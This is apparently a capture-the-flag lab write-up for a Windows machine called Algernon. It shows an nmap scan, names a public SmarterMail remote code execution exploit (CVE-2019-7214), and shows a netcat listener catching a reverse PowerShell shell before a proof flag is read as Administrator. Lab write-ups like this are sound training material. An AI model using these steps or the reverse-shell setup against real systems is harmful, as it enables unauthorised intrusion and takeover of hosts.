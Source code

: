 # Algernon

This lab have a vulnerability to Remote Code Execution (RCE) on port 9998 which is a smarter mail.

# nmap
```bash
┌──(michal161㉿kali)-[~]
└─$ nmap 192.168.137.65 --open -sCV
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-13 14:59 CDT
Nmap scan report for 192.168.137.65
Host is up (0.040s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 04-29-20  10:31PM       <DIR>          ImapRetrieval
| 10-13-25  12:38PM       <DIR>          Logs
| 04-29-20  10:31PM       <DIR>          PopRetrieval
|_10-13-25  12:38PM       <DIR>          Spool
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
9998/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /interface/root
| uptime-agent-info: HTTP/1.1 400 Bad Request\x0D
| Content-Type: text/html; charset=us-ascii\x0D
| Server: Microsoft-HTTPAPI/2.0\x0D
| Date: Mon, 13 Oct 2025 19:59:44 GMT\x0D
| Connection: close\x0D
| Content-Length: 326\x0D
| \x0D
| <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">\x0D
| <HTML><HEAD><TITLE>Bad Request</TITLE>\x0D
| <META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>\x0D
| <BODY><h2>Bad Request - Invalid Verb</h2>\x0D
| <hr><p>HTTP Error 400. The request verb is invalid.</p>\x0D
|_</BODY></HTML>\x0D
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-10-13T19:59:45
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.51 seconds

```

# exploitation
With nmap we could see there is a port which is smartmail on port 9998 and we found an rce from exploit-db (https://www.exploit-db.com/exploits/49216) after we change HOST and LHOST value we can proceed but before this we need to open a new shell with listener.

```bash
┌──(michal161㉿kali)-[~]
└─$ nc -lvnp 4444                  
listening on [any] 4444 ...
```

after this go back to first shell and execute the exploit.

```bash
┌──(michal161㉿kali)-[~/pgp/Algernon]
└─$ python cve-2019-7214.py

```

After we execute the command we should get a reverse shell.

```Powershell
connect to [192.168.45.192] from (UNKNOWN) [192.168.215.65] 49972

PS C:\Windows\system32>
```

After going to the path with flag we can read the flag with command below.

```Powershell
PS C:\Users\Administrator\desktop> dir


    Directory: C:\Users\Administrator\desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        4/29/2020   9:29 PM           1450 Microsoft Edge.lnk                                                    
-a----       10/16/2025   8:52 AM             34 proof.txt                                                             


PS C:\Users\Administrator\desktop> type proof.txt
beadf9faccc73225cb5dd8a3c76d0bf9
PS C:\Users\Administrator\desktop> 

```
